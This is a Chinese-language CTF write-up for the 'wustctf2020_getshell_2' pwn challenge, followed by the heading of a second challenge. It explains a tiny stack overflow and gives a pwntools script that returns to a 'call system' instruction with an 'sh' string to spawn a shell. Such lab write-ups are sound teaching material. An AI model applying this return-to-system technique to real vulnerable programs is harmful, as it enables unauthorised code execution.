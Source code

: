 > `shell`函数汇编代码

- `ROPgadgets`字符串的获取
- `call`指令的使用

1. 在漏洞函数`vulnerable`中存在溢出,但是溢出空间很小,只有`8`个位置(两个栈空间)

2. 在`shell`函数中存在`system`函数同时有一串字符串,字符串中有`/sh`

   ```shell
   bamuwe@qianenzhao:~$ ROPgadget --binary wustctf2020_getshell_2 --string 'sh'
   Strings information
   ============================================================
   0x08048670 : sh
   ```

   

3. 溢出到`call system`从栈中得到`/sh`传入参数得到shell

在这里只有两个栈空间可以使用,所以不能用`plt_system`,因为`plt`的时候参数是从后第五位开始的,而`call`指令的函数,直接是栈上后四位传入,题目条件限制了只有两个栈空间能使用,所以只能通过上述方法

```python
from pwn import *
io = process('./wustctf2020_getshell_2')

payload = b'A'*(0x18+4)+p32(0x08048529)+p32(0x08048670)
io.sendline(payload)
io.interactive()
```

by_the_way:这题一开始我是想用栈迁移来做,但是能力不足水平有限,搞了一会儿没耐心了,转而就用这种简单的办法,日后顾盼生姿.

# bbys_tu_2016

![image-20240108202313442](../assets/img/old_imgs/image-20240108202313442.png)

![image-20240108202321247](../assets/img/old_imgs/image-20240108202321247.png)
